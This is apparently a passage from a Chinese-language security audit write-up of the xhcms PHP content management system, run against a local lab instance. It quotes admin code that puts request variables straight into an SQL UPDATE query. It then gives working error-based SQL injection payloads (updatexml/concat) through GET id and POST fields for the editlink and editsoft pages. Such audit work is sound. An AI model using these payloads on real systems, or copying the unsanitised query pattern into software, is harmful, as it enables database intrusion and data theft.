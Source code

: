 ```

if ($save==1){
	
if ($name==""){
echo "<script>alert('抱歉，链接名称不能为空。');history.back()</script>";
exit;
}
if ($url==""){
echo "<script>alert('抱歉，链接地址不能为空。');history.back()</script>";
exit;
}

$query = "UPDATE link SET 
name='$name',
url='$url',
mail='$mail',
jieshao='$jieshao',
xs='$xs',
date=now()
WHERE id='$id'";
@mysql_query($query) or die('修改错误：'.mysql_error());
echo "<script>alert('亲爱的，链接已经成功编辑。');location.href='?r=linklist'</script>"; 
exit;
}
?>
```

这里还是只有单引号闭合,利用方式和之前的差不多,只需要GET一个id参数即可,甚至不用去控type参数就可以直接注入

![image-20210923232257934](images/13.png)

```
http://192.168.121.130/xhcms/admin/?r=editlink&type=2&id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```

也可以在post参数那里直接注入

```
1' or updatexml(1,concat(0x7e,(select database())),0) or'
```

![image-20210925145226763](images/14.png)

这里在后面需要加上`or'`才能注入,因为他这里有很多变量需要联系起来,而且不用注释符

当然上面那个文件也可以这么注入

### /admin/files/editsoft.php

一样的get一个id参数可以注入

```
1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```
